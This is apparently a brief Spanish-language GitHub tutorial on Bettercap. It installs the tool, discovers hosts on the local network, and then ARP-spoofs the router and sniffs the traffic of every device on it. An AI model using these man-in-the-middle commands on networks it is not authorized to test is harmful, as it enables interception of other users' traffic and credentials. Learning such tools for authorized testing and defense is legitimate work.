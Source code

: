 # Análisis con Bettercap
<br>

<p align="center">
<img src="./Img/logo.jpg">
</p>

<br>

Bettercap es una herramienta potente, flexible y portátil creada para realizar varios tipos de ataques MITM contra una red, manipular HTTP, HTTPS y tráfico TCP en tiempo real, buscar credenciales y mucho más.

<br>

## Instalación


sudo apt-get install build-essential ruby-dev libpcap-dev

```
apt-get update

apt-get install bettercap
```

<br>

## USO

Abriremos una nueva terminal y ejecutaremos lo siguientes comandos:

```
bettercap

net.probe on

ticker on
```

Como podmeos observar son las IP de nuestra red local.

<br>

![Informatica](Img/IP.jpg)

<br>

En la misma terminal ejecutaremos de nuevo bettercap, seleccionamos la IP que vamos analizár en este caso vamos a nalizar todas las IP para esto seleccionamos la IP del router.

```
set arp.spoof.targets 192.168.1.1

arp.spoof on

set net.sniff.verbose false

net.sniff on
```

Y nos mostrara todo el tráfico de todos los dispositivos.

<br>

![Informatica](Img/trafico.png)

<br>


